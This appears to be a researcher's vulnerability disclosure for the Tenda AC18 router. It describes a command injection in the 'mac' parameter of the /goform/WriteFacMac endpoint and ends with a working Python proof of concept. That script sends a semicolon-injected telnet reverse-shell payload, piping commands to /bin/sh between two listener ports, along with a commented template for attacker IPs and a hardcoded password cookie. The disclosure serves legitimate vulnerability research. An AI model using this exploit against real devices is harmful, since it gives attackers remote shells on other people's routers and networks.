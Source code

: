Vendor:Tenda https://www.tenda.com.cn/default.html
product:AC18
version:V15.03.05.19 and  V15.03.05.05
type:Arbitrary Remote Command Execution
author:WuShaoZhen
institution:WuShaoZhen@Xiangtan University

## Vulnerability description:
I found an Arbitrary Command Execution vulnerability in the router's web server-- **/bin/httpd** of squashfs filesystem. While processing the **mac** parameters for a post request(when an attacker accesses ip/goform/WriteFacMac), the value is directly passed to doSystem, which causes a RCE. The details are shown below: 

![rce1.1.png](https://github.com/wshidamowang/Router/blob/main/Tenda/AC18/AC18_images/rce1.1.png)


![rce1.2.png](https://github.com/wshidamowang/Router/blob/main/Tenda/AC18/AC18_images/rce1.2.png)


Close the previous command with a semicolon and then cause an Arbitrary Remote Command Execution
## Poc:
```python2
import requests
from pwn import*

ip = "192.168.211.128" #You Tenda AC18 Router IP
url = "http://" + ip + "/goform/WriteFacMac"
print(url)


#payload = ";cmd"
#payload = ";telnet ip port1 | /bin/sh | telnet ip port2"
payload = ";telnet 127.0.0.1:1111 | /bin/sh | telnet 127.0.0.1:2222"


cookie = {"Cookie":"password=12345"}
data = {"mac": payload}
response = requests.post(url, cookies=cookie, data=data)
print(response.text)
print("HackAttackSuccess!")
```
Use the above POC to play shell through telnet You can get a very stable shell
![rce1.3.png](https://github.com/wshidamowang/Router/blob/main/Tenda/AC18/AC18_images/rce1.3.png)
![rce1.4.png](https://github.com/wshidamowang/Router/blob/main/Tenda/AC18/AC18_images/rce1.4%20.png)
